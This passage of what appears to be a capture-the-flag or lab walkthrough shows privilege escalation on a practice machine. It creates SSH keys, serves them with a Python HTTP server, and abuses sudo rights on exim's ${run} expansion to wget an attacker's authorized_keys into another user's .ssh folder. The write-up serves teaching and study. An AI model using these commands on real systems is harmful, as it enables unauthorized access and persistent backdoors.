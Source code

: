 
We create a pair of SSH keys on our attacking machine:
```bash
ssh-keygen -t rsa -b 4096
```
```bash
Generating public/private rsa key pair.
Enter file in which to save the key (/home/darks/.ssh/id_rsa): 
/home/darks/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase for "/home/darks/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/darks/.ssh/id_rsa
Your public key has been saved in /home/darks/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:zyOXK9iVVZPcMOGF3QQYw8G2CQsIizG3vexCh3e88pM darks@Darks
The key's randomart image is:
+---[RSA 4096]----+
|  o o. .   o+==X+|
|   = +. . . =o*o+|
|  . o .  . + +.. |
|     o o  . +    |
|    o = S  o     |
|   . + . +o.     |
|    . oooo*      |
|     ..oEo o     |
|        .o.      |
+----[SHA256]-----+
```

We copy the keys to our current directory and create a copy of id_rsa.pub with the name authorized_keys

```bash
cp ~/.ssh/id_rsa . && cp ~/.ssh/id_rsa.pub . && cp id_rsa.pub authorized_keys
```

Now we must download the authorized_keys and id_rsa.pub files to /home/pedro/.ssh and for this we start a python server on our attacking machine

```bash
python3 -m http.server 80
```

Then we send the email to the administrator again so that he assigns us the permissions to run exim as Pedro and once with the permissions we download the keys

```bash
echo -e "Nombre solicitante: carlos\nMatricula solicitante:1250319\nFecha:22-03-25\nBreve descripcion: caso nro: 000-01458" | /usr/sbin/exim root@cybersec
```

```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "cd /home/pedro/.ssh && wget http://172.17.0.1/authorized_keys"}}'
```
```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "cd /home/pedro/.ssh && wget http://172.17.0.1/id_rsa.pub"}}'
```
```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "ls -la /home/pedro/.ssh"}}'
```
